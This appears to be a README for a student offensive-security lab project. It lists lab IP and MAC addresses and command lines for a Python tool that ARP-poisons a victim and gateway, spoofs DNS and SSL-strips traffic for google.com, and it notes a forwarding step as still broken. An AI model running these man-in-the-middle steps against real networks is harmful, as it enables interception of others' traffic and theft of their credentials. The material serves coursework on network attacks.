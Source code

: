 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "10.0.123.1"`

2. ARP poison the gateway: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.1" --ipToSpoof "10.0.123.5"`

3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --ipToSpoof "142.250.179.174"` _google.com_

4. SSL Strip the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --ipToSpoof "142.250.179.174"` _google.com_

STILL BROKEN:
5. Forward `sudo python3 main.py --interface "enp0s10" forward --ipVictim "10.0.123.5" --ipToSpoof "142.250.179.174"` _google.com_
